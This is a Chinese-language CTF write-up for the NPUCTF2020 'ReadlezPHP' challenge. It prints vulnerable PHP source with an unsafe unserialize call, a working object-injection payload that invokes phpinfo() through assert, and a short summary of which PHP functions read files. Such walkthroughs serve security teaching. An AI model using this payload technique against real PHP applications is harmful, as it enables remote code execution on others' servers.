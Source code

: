 # \[NPUCTF2020]ReadlezPHP

## \[NPUCTF2020]ReadlezPHP

## 考点

* PHP反序列化
* 动态调用函数函数
* eval()特性

## wp

有个页面`time.php?source`

![](<../../.gitbook/assets/image (12) (1) (1) (1) (1) (1).png>)

访问后得到源码，是php反序列化

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);
```

payload：`time.php?data=O:8:"HelloPhp":2:{s:1:"a";s:10:"phpinfo();";s:1:"b";s:6:"assert";}`

```php
<?php
class HelloPhp
{
    public $a = 'phpinfo();';
    public $b = 'assert';

}
$c = new HelloPhp;

echo serialize($c);
```

## 小结

1. 为什么不能用eval呢？因为<mark style="color:red;">eval是构造器，不算是个函数，不能使用$b($a)的方式调用</mark>。
2. 读取文件的函数：<mark style="color:orange;">`readfile`</mark>，<mark style="color:orange;">`show_source`</mark>，<mark style="color:orange;">`highlight_file`</mark>，<mark style="color:orange;">`file_get_contents`</mark>
